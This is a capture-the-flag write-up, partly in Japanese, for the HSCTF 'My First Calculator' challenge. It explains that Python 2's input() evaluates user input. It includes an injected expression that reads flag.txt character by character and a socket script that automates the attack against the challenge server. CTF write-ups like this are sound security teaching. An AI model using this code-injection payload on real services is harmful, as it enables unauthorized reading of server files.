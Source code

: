 # My First Calculator:Miscellaneous:100pts
I'm really new to python. Please don't break my calculator!  
nc misc.hsctf.com 7001  
There is a flag.txt on the server.  
[calculator.py](calculator.py)  

# Solution
calculator.pyをみるとpython2.7との記述がある。  
python2ではinputが即座に評価されるため、ファイルを読み込むことができる。  
`open("flag.txt").read()`ではstringであるため表示できない。  
`ord(open("flag.txt").read()[i])`のiを増やし、一文字ずつ読んだ後デコードすればよい。  
```bash
$ echo TestFlag > flag.txt
$ python2 calculator.py
Welcome to my calculator!
You can add, subtract, multiply and divide some numbers

First number: 9*9*9*9
Second number: 0
Operation (+ - * /): 0

Sorry, only the number 1 is supported
6561
$ python2 calculator.py
Welcome to my calculator!
You can add, subtract, multiply and divide some numbers

First number: ord(open("flag.txt").read()[0])
Second number: 0
Operation (+ - * /): +

Sorry, only the number 1 is supported
84
$ python -c "print(chr(84))"
T
```
手動で行ってもよいがcharf.pyで自動化する。  
```python:charf.py
import re
import socket

host = "misc.hsctf.com"
port = 7001

FLAG_MAX = 50

for i in range(FLAG_MAX):
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client.connect((host, port))
    _ = client.recv(128)
    _ = client.recv(128)
    client.send("ord(open(\"flag.txt\").read()[{}])\n".format(i).encode("utf-8"))
    _ = client.recv(128)
    client.send(b"0\n")
    _ = client.recv(128)
    client.send(b"+\n")
    _ = client.recv(128)
    response = client.recv(128)
    try:
        response = re.findall("[0-9]*", str(response))
        print(chr(int(response[41])),end="")
    except:
        break
```
```bash
$ python chrf.py
flag{please_use_python3}
```

## flag{please_use_python3}